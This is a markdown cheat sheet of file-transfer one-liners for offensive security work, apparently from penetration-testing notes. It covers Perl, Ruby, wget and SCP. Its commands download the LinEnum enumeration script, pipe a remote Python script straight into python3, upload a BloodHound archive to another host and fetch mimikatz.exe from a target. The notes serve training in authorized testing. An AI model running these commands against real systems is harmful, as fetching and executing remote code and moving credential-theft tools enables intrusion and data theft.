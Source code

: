 <br><br>

# Perl
| Command | Description |
|---------|-------------|
|`perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`|Perl - Download a File|

<br><br>

# Ruby
| Command | Description |
|---------|-------------|
|`ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`|Ruby - Download a File|
|`ruby -run -ehttpd . -p8000`|Creating a Web Server with Ruby|

<br><br>

# Wget
| Command | Description |
|---------|-------------|
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
|<code>wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py \| python3</code>|Fileless Download with wget|

<br><br>

# SCP
| Command | Description |
|---------|-------------|
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |